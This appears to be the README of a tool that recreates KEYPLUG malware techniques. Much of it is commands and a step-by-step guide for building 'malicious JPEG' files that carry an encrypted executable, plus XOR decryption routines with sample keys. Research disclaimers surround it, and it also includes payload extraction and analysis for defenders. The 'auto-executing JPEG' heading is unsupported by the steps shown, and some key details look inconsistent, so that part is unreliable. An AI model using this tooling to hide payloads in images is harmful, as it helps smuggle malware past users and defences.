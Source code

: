 # KEYPLUG Malware Recreation Framework

## Overview

This framework provides a simplified implementation of the techniques found in the KEYPLUG malware samples. It accurately recreates the encryption algorithms, steganography methods, and payload execution mechanisms used in the original malware.

**WARNING:** This code is provided for research purposes only. Creating malicious files is illegal and unethical unless done in a controlled security research environment.

## Key Features

1. **Encryption Algorithms**
   - Single-byte XOR (Sample 1: key 0x20)
   - Multi-layered decryption (Sample 2: 9e+d3+b63c1e94+a2800a28)
   - Offset XOR decryption (Sample 3: 0xff00 at offset 18313)
   - Pattern-key based decryption

2. **Steganography Techniques**
   - LSB steganography in JPEG data
   - Forced payload insertion at specific offset (33849)
   - Appending data after JPEG EOI marker

3. **Analysis Tools**
   - Payload extraction from malicious JPEGs
   - Encryption detection and analysis
   - Payload verification

## Compilation

To build the framework:

```bash
cd keyplug_simplified
make
```

This will create the `keyplug` executable which provides all functionality.

## Usage Instructions

### Creating Malicious JPEG Files

To create a JPEG with an embedded payload:

```bash
./keyplug create --source clean.jpg --output malicious.jpg --payload your_payload.exe --encrypt 4 --method 3
```

Parameters:
- `--source`: Source (clean) JPEG file
- `--output`: Output (malicious) JPEG file
- `--payload`: Executable file to embed
- `--encrypt`: Encryption type
  - `0`: No encryption
  - `1`: Single-byte XOR (Sample 1: key 0x20)
  - `2`: Offset XOR (Sample 3: 0xff00 at offset 18313)
  - `3`: Pattern key (a2800a28)
  - `4`: Multi-layer (Sample 2: 9e+d3+b63c1e94+a2800a28)
- `--method`: Embedding method
  - `1`: LSB steganography
  - `2`: Forced payload at offset 33849
  - `3`: Append after EOI marker

### Extracting Payloads from JPEG Files

To extract a payload from a malicious JPEG:

```bash
./keyplug extract --input malicious.jpg --output extracted_payload.bin
```

### Analyzing JPEG Files for Hidden Payloads

To analyze a JPEG file for hidden payloads:

```bash
./keyplug analyze --input suspicious.jpg
```

## Step-by-Step: Creating Auto-Executing JPEG Files

For research purposes, here's how to create an auto-executing JPEG that recreates the techniques used by the KEYPLUG malware:

### 1. Prepare Your Payload

First, create a simple executable payload for testing:

```c
// payload.c
#include <stdio.h>

int main() {
    printf("KEYPLUG Malware Simulation Executed\n");
    return 0;
}
```

Compile it:
```bash
gcc -o payload.exe payload.c
```

### 2. Prepare a Clean JPEG

Obtain a legitimate JPEG file to serve as the carrier. You can use any JPEG image.

### 3. Create the Malicious JPEG

Using the techniques from Sample 3 (considered the most effective):

```bash
./keyplug create --source clean.jpg --output malicious.jpg --payload payload.exe --encrypt 2 --method 2
```

This will:
1. Take your payload (`payload.exe`)
2. Encrypt it using the Sample 3 technique (0xff00 XOR at offset 18313)
3. Embed it in the JPEG using the forced insertion technique
4. Create a new file (`malicious.jpg`) that appears to be a normal image

### 4. Test the Extraction

Verify the payload can be properly extracted:

```bash
./keyplug extract --input malicious.jpg --output extracted.bin
```

### 5. Advanced: Multi-Layer Encryption (Sample 2 Technique)

For a more complex implementation similar to Sample 2:

```bash
./keyplug create --source clean.jpg --output complex.jpg --payload payload.exe --encrypt 4 --method 1
```

This uses:
1. Multi-layered encryption (9e+d3+b63c1e94+a2800a28)
2. LSB steganography for hiding the payload

## Implementation Details

The framework accurately implements the key algorithms found in the malware samples:

1. **Sample 1 Decryption (XOR key 0x20)**
   ```c
   void keyplug_decrypt_xor(uint8_t* data, size_t data_len, uint8_t key) {
       for (size_t i = 0; i < data_len; i++) {
           data[i] ^= key;
       }
   }
   ```

2. **Sample 2 Multi-Layer Decryption (9e+d3+b63c1e94+a2800a28)**
   ```c
   void keyplug_decrypt_sample2(uint8_t* data, size_t data_len) {
       // Layer 1: XOR with 0x9e
       keyplug_decrypt_xor(data, data_len, 0x9e);
       
       // Layer 2: XOR with 0xd3
       keyplug_decrypt_xor(data, data_len, 0xd3);
       
       // Layer 3: Pattern key 0xb63c1e94
       keyplug_decrypt_pattern_key(data, data_len, 0xb63c1e94);
       
       // Layer 4: Position-dependent XOR with a2800a28
       uint8_t pattern_key[] = {0xa2, 0x80, 0x0a, 0x28};
       keyplug_decrypt_position_xor(data, data_len, pattern_key, sizeof(pattern_key));
   }
   ```

3. **Sample 3 Decryption (0xff00 at offset 18313)**
   ```c
   void keyplug_decrypt_sample3(uint8_t* data, size_t data_len) {
       // Layer 1: Apply 0xff00 XOR key starting at offset 18313
       keyplug_decrypt_offset_xor(data, data_len, 0xff00, 18313);
       
       // Layer 2: Apply pattern key a2800a28
       keyplug_decrypt_pattern_key(data, data_len, 0xa2800a28);
   }
   ```

## Security Considerations

This framework recreates malware techniques for research purposes. When using it:

1. Work in an isolated environment
2. Do not distribute created files
3. Use only for educational purposes
4. Be aware of legal implications
5. Ensure proper authorization before testing

## References

Based on the analysis of KEYPLUG malware samples extracted from the NDA.odg document:
- Sample 1: XOR key 0x20
- Sample 2: Multi-layered encryption (9e+d3+b63c1e94+a2800a28)
- Sample 3: XOR key 0xff00 at offset 18313

